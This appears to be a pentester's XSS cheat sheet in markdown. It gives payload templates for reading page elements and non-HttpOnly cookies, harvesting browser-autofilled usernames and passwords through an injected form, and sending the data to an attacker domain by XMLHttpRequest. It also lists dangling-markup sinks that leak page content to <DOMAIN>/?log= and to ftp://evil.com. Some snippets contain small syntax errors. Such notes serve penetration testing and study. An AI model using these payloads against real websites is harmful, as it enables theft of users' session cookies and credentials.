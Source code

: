 # XSS
## Document Methods
**Always use setTimeout to 5000 before retrieving document data**
```javascript
document.getElementById('<ID>')
```

```javascript
var value;
var inputs = document.getElementsByTagName('<TAG>')`
var value = <LOGIC>
```

## Cookies (Non Http-Only)
`document.cookie`

## Credentials
**Only works for insecure browser keychains**
```html
<form id='creds' autocomplete='on'>
<input name="username" id="user" type="username" />
<input name="password" id="pw" type="password" />
</form>

<script>
var username = document.getElementById('user').value;
var pw = document.getElementById('pw').value;
</script>
```

## Retrieval
**Does not work if SOP is enabled**
```javascript
var req = new XMLHttpRequest();
req.open('<DOMAIN>', true);
body = String(<INFO>);
req.send(body);
```

## Dangling Markup
**Inject ' " \` /> or other closers to break final HTML**
**Source [here](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)**
### Sinks
**Tags all behave differently, for some reason**
- `<CLOSER> <img src="<DOMAIN>/?log=`
- `<CLOSER> <a href="<DOMAIN>/?log=`
- `<CLOSER> <meta http-equiv="refresh" content='0; url=http://<DOMAIN>/?text=`
- `<CLOSER<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=`